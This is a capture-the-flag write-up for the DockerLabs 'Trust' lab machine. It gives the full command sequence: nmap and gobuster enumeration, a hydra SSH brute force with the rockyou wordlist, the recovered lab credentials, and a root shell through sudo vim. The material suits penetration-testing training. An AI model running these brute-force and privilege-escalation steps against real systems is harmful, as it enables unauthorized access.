

# Trust - DockerLabs - Easy
## Summary
The machine exposes a username on a hidden web page, which is used for SSH brute force to gain access and escalate privileges via a misconfigured sudo permission on vim.

## Tools
- nmap
- gobuster
- hydra

## 1. Enumeration
### Port Scanning
```bash
nmap -sC -sV -O -p- 172.17.0.2
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1
80/tcp open  http    Apache httpd 2.4.57
```

We can see there is a SSH service on port 22 and an http service on port 80.

### Web Enumeration
We start by fuzzing the directories with gobuster on that URL:
```sh
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

But we can see there is an error related to "The server returns a status code that matches the provided options for non existing urls. http://172.17.0.2/9f6abfa2-9e85-459c-b780-19ecb7767b46 => 200 (Length: 10701)."

```sh
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 --exclude-length 10701
```

There is a `/secret.php` page that reveals a potential username: **mario**.


## 2. Exploitation
We can use the name for brute forcing with SSH:
```sh
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

We encounter these credentials, and we use them to access through SSH:
```sh
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate

ssh mario@172.17.0.2
```

## 3. Escalate privileges
Inside the machine, we use the command `sudo -l` and we see this:
```bash
# Check sudo permissions
sudo -l
# Output: (ALL) NOPASSWD: /usr/bin/vim

# Exploit via GTFOBins
sudo /usr/bin/vim -c ':!/bin/bash'

# Verify
whoami
# root
```

## 4. Lessons Learned
- Always check for non-standard pages (secret.php) during web enumeration
- Usernames found on web pages are valid targets for SSH brute force
- `sudo -l` is the first privesc check on any Linux machine
- GTFOBins: vim with sudo → instant root shell

## 5. Flags
- User: mario / chocolate
- Root: `whoami` -> root

